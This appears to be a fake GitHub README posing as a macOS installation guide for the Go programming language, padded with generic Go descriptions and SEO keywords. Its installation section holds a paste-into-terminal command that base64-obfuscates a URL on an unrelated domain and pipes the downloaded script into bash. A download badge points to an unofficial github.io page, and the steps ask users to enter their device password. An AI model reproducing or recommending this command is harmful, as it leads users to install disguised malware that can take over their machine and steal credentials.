 # ⚙️ Golang Mac — Install Go on macOS

![Golang Overview](https://contentstatic.techgig.com/photo/82278297/5-top-advantages-of-using-golang-programming-language.jpg?35743)

> **Version:** Go 1.22+  
> **Platform:** macOS (Intel & Apple Silicon)  
> **Category:** Programming Language, Backend Development

---

## 📥 How to Install Golang on Mac

[![⬇️ Download Now](https://img.shields.io/badge/Golang-Install%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/golang)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Golang for Mac?

**Golang**, also known as **Go**, is an open-source programming language developed by Google, designed for simplicity, efficiency, and reliability. It is widely used for backend development, system tools, cloud services, and scalable network applications. Golang is praised for its fast compilation time, built-in concurrency model (goroutines), strong standard library, and ease of deployment, making it a popular choice among developers who build robust and scalable systems.

On **macOS**, Golang integrates seamlessly, allowing developers to take full advantage of UNIX-like terminal capabilities, excellent development environments like VS Code or GoLand, and native performance on Apple Silicon (M1/M2/M3) and Intel-based Macs. Whether you're compiling for multiple platforms, building APIs, working with containers, or contributing to open-source projects, Go on macOS provides an efficient and fast development workflow.

Installing **Golang on a Mac** is straightforward — using official installers, Homebrew, or downloading the `.pkg` directly from the [Go website](https://golang.org/dl). Once installed, you get access to `go`, the command-line tool that allows you to manage packages, run code, format files, and build applications. Setting up `GOPATH`, organizing your project directory, and installing dependencies via `go get` are key parts of the workflow.

Thanks to Go's cross-platform support, Mac developers can build binaries for Linux, Windows, and other architectures directly from macOS. Additionally, Golang's compatibility with Docker, Kubernetes, and cloud services makes it an ideal choice for building distributed systems and DevOps tools. Go has become a core language for many leading tech companies and is particularly well-suited for performance-critical and scalable services.

Whether you're a beginner learning your first language, a systems engineer, or a backend developer working on APIs and microservices, **Golang for macOS** is a powerful, efficient, and modern toolset to have in your development toolkit.

---

## 🛠️ Recommended Setup

- ✅ macOS 12+ (Monterey, Ventura, Sonoma)
- ✅ Apple M1 / M2 / M3 or Intel CPUs
- ✅ IDE: Visual Studio Code with Go extension
- ✅ Git installed
- ✅ Terminal (iTerm2 recommended)

---

## 🔑 Features

- Full Go module support (go mod)
- Supports Web APIs, CLI tools, microservices
- Built-in testing framework (go test)
- Seamless package management
- Great performance and scalability

---

## 🧩 Keywords

golang mac, install go mac, install go on mac,
golang install mac, install go in mac, install golang osx,
golang download mac, golang for mac, golang mac install,
golang install mac os, golang osx, install go mac os,
mac os golang, mac os install golang, macos golang,
download golang for mac, install go for mac, go lang mac,
golang install on mac, golang mac download, golang mac os,
golang setup mac, gopath macos, install go lang mac,
install golang for mac, mac golang install, osx install golang,
setup golang mac, setup golang on mac, vscode go mac
